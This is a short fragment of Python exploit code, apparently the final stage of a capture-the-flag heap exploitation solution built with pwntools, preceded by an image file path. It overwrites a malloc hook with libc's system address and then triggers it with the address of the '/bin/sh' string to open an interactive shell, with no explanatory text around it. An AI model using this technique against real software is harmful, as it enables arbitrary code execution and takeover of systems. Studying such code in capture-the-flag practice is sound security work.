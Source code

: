 ```python
malloc(distancia, "A")

malloc(24, p64(libc.sym.system))

malloc(next(libc.search(b"/bin/sh")), "")
# =============================================================================

io.interactive()

```